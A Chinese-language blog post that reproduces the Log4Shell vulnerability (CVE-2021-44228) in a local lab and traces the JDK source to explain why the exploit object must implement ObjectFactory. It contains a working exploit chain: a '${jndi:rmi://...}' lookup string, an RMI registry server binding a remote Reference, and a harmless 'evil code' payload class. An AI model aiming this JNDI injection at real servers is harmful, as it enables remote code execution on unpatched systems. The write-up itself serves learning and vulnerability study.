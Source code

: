 ```yaml
---
title: Log4j CVE-2021-44228漏洞复现
date: 2024-01-23 22:43:18
tags: 
  - Java
  - 安全
---
```


# Log4j 依赖版本

```yml
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-api</artifactId>
    <version>2.14.0</version>
</dependency>
<dependency>
    <groupId>org.apache.logging.log4j</groupId>
    <artifactId>log4j-core</artifactId>
    <version>2.14.0</version>
</dependency>
```

> 也贴一下log4j的配置文件，和漏洞没有联系

```xml
<?xml version="1.0" encoding="UTF-8"?>
<Configuration status="INFO">
    <Appenders>
        <Console name="Console" target="SYSTEM_OUT">
            <PatternLayout pattern="%d{HH:mm:ss.SSS} [%t] %-5level %logger{36} - %msg%n"/>
        </Console>
    </Appenders>
    <Loggers>
        <Root level="info">
            <AppenderRef ref="Console"/>
        </Root>
    </Loggers>
</Configuration>
```

# 漏洞复现

**Log4jTest.java**

```java
package org.example;

import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Test {

  private static final Logger LOGGER = LogManager.getLogger();

  public static void main(String[] args) {
    String foo = "bar";
    String os = "${java:os}";
    LOGGER.info("foo, {}!", foo);
    LOGGER.info("os, {}!", os);
  }
}
```

上述代码执行结果:

```markdown
23:18:16.262 [main] INFO  org.example.Log4j2Test - foo, bar!
23:18:16.264 [main] INFO  org.example.Log4j2Test - os, Mac OS X 13.3.1 unknown, architecture: x86_64-64!
```

可以看到 `LOGGER.info("os, {}!", os);` 这段代码并不是将字符串打印出来，而是将其认为是代码再执行了一次，获取了系统信息。这是Log4j为了开发者使用方便而提供的一个[功能](https://logging.apache.org/log4j/2.x/manual/lookups.html)。而这也带来了安全问题。

攻击者可以构造恶意的RMI请求，向服务器发送请求并执行恶意代码。该攻击属于JNDI攻击，通过RMI请求将恶意代码注入到服务器中。

> RMI (Remote Method Invocation) 是 Java 中用于实现远程过程调用的机制。它允许在不同的 Java 虚拟机（JVM）之间进行通信，并调用远程对象上的方法，就像调用本地对象的方法一样。

**Log4jTest.java**

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;

public class Log4j2Test {

  private static final Logger LOGGER = LogManager.getLogger();

  public static void main(String[] args) {
    System.setProperty("com.sun.jndi.rmi.object.trustURLCodebase", "true");
    String rmi = "${jndi:rmi://192.168.31.120:1099/evil}";
    LOGGER.info("rmi, {}!", rmi);
  }
}
```

RMI服务端代码 **RmiServer.java**

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class RmiServer {
    public static void main(String[] args) {
        try {
            LocateRegistry.createRegistry(1099);
            Registry registry = LocateRegistry.getRegistry();

            System.out.println("Create RMI registry on port 1099");

            Reference reference = new Reference("com.example.rmi.EvilObj", "org.example.rmi.EvilObj", "");
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("evil", wrapper);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

恶意代码 **EvilObj.java**

```java
import javax.naming.Context;
import javax.naming.Name;
import javax.naming.spi.ObjectFactory;
import java.util.Hashtable;

public class EvilObj implements ObjectFactory {

    static {
        System.out.println("evil code");
    }

    @Override
    public Object getObjectInstance(Object obj, Name name, Context nameCtx, Hashtable<?, ?> environment) throws Exception {
        return new EvilObj();
    }
}
```

先起 RMI 服务，再起 **Log4jTest.java**，可以看到 **Log4jTest.java** 的控制台输出了 RMI 服务的恶意代码。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-23-23-44-05.png)

# 复现时遇到的问题

## JDK版本过高

JDK在各个大版本中的某些小版本后将如 `com.sun.jndi.rmi.object.trustURLCodebase` 默认值改为 `false`，导致启动报错，按照上述代码设置将该值改为 `true`即可。

## 无法获取远程对象

这时的 EvilObj.java 代码是这样的:

```java
public class EvilObj {
  static {
    System.out.println("evil code");
  }
}
```

没有实现 `ObjectFactory` 接口。

> 看别人复现时也没有实现这个接口，但是就是可以的。

表现形式如图：

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-23-23-52-04.png)

可以看出对象并没有实例化出来，静态代码块也没有执行。

或者是报错

```markdown
Error looking up JNDI resource [rmi://192.168.31.120:1099/evil]. javax.naming.NamingException [Root exception is java.lang.ClassCastException: org.example.rmi.EvilObj cannot be cast to javax.naming.spi.ObjectFactory]
```

> 在写文章之前 只有第一个问题，但是复现不了，而是出现了第二个问题。但是都是同样的解决方式。

根据JDK版本过高的导致报错可以到其中源码查看对象是如何实例化的。报错的位置是 `com.sun.jndi.rmi.registry.RegistryContext.decodeObject`。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-09-08.png)

1. 在这处报错其实就可以看到JDK版本过高，将该值默认关闭了，打开就好。
2. getObjectInstance 见名知意，就是实例化对象用的。

可以看到var3就是在RMI中的Reference对象。

```java
Reference reference = new Reference("com.example.rmi.EvilObj", "org.example.rmi.EvilObj", "");
```

再进入这个方法看看，这个方法可以简单的分为两部分。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-19-38.png)

1. 第一部分去拿设置在 `NamingManager` 中的对象实例化工厂，去实例化对象。但是没有拿到工厂对象，是一个 `null`。
2. 所以到了第二步，第二步是去 `Reference` 对象中拿取工厂对象，然后去实例化对象。而这个其实是有点眼熟的。可以看下 `Reference` 的构造方法。


![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-28-02.png)

该构造方法是需要传入对象工厂的。

再进入获取对象工厂的方法 `getObjectFactoryFromReference` 中看看实现，有这么一个 ObjectFactory 的强转操作，即没有实现这个接口就会报上面说的强转失败报错。

![](https://raw.githubusercontent.com/lkzc19/blasphemy.zimg/main/drinkice/2024-01-24-00-38-40.png)

获取工厂成功后，就调用实现接口的 `getObjectInstance` 方法去实例化对象。

---

- [Log4j Lookups](https://logging.apache.org/log4j/2.x/manual/lookups.html)
- [Log4j高危漏洞！具体原因解析！全网第一！](https://www.bilibili.com/video/BV1FL411E7g3/?spm_id_from=333.337.search-card.all.click&vd_source=6f99bcf527e78fa16b53211c455ca619)